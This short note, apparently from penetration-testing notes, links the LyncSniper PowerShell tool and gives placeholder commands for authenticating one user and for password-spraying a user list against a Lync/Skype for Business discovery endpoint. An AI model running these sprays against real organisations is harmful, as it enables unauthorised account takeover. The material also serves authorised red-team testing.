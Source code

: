 ### source
https://raw.githubusercontent.com/mdsecresearch/LyncSniper/master/LyncSniper.ps1  

### authenticate with single user
```
Invoke-Authenticate -Username <user>@<domainIntern> -Password <password> -baseurl <lyncdiscoverUrl> -verbose
```

### password spray (return 400 if credentials are wrong)
```
Invoke-LyncSpray -Delay 5000 -UserList <userFile> -Password <password> -AutoDiscoverURL <lyncdiscoverUrl> -verbose
```

